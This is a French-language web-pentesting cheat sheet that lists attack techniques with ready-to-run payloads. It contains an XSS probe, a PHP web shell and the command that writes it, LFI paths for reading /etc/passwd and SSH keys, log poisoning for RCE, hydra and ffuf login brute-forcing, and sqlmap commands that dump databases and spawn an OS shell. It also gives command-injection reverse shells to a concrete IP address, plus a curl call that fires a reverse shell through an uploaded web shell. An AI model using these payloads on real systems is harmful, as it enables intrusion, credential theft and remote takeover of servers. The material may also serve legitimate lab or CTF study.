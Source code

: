 ### Techniques :

- Injection XSS manuelle : Tester manuellement des injections de script.

```javascript
<script>alert('XSS')</script>
```

- Upload d’un web shell : Après avoir trouvé une faille d'upload, téléverser un shell PHP.

```php
<?php system($_GET['cmd']); ?>
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

- Local File Inclusion (LFI) : /etc/passwd, /home/.ssh
  http://target.com/index.php?page=../../../../etc/passwd
  /../../../../../../../../../../../../../etc/passwd
- Remote File Inclusion (RFI) : Exploiter une vulnérabilité RFI pour exécuter un script distant.
- Log poisoning : envoie une requête avec un payload PHP qui va être loguée
  Puis accès au fichier de log dans /var/log avec une RFI pour déclencher le payload
  /var/log/ -> Google : LFI to RCE TECHNO -apache/php- (adapter la recherche en fonction de la techno)
  Injection de commande, liste de payload sur seclists
- Sites de revshells : 
  - https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
  - https://www.revshells.com/
  - https://github.com/swisskyrepo/PayloadsAllTheThings
  - Metasploit

```bash
# Bruteforce des logins
hydra -l admin -P /path/to/passwords.txt target.com http-post-form "/login.php:username=^USER^&password=^PASS^:Invalid login"

BASE64 - BASIC AUTH
https://github.com/ffuf/ffuf-scripts
./ffuf-scripts/ffuf_basicauth.sh usernames.txt passwords.txt | ffuf -w -:AUTHFUZZ -request brute.req.txt -request-proto http
echo AUTHFUZZ | base64 --decode

# Automatisation des injections sql
sqlmap -u "http://target.com/page?id=1" --dbs
sqlmap -u "http://target.com/page?id=1" --os-shell
sqlmap -u "http://target.com/page?id=1" --cookie=""
sqlmap -r sqlmap.req.txt --dbs
sqlmap -r sqlmap.req.txt -D dvwa --tables
sqlmap -r sqlmap.req.txt -D dvwa -T users --dump


# Web Shells : Déployer des shells web sur les serveurs compromis.
# Reverse Shells : refshell.com | Si doute soit encode ton url soit base 64 |
# Si je peux upload un fichier, j'upload un shell direct, une fois qu'il est upload on va call la page, requête GET sur mon-upload.php
nc -nlvp 4242
127.0.0.1; bash -c "bash -i >& /dev/tcp/157.90.29.76/4242 0>&1"
nc -nlvp 443
127.0.0.1; bash -c 'bash -i >& /dev/tcp/157.90.29.76/443 0>&1'


# from HTB
nc -nlvp 443
bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1"
curl {VICTIME_IP}/shell.php --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/{your_IP}/1234 0>&1"'


```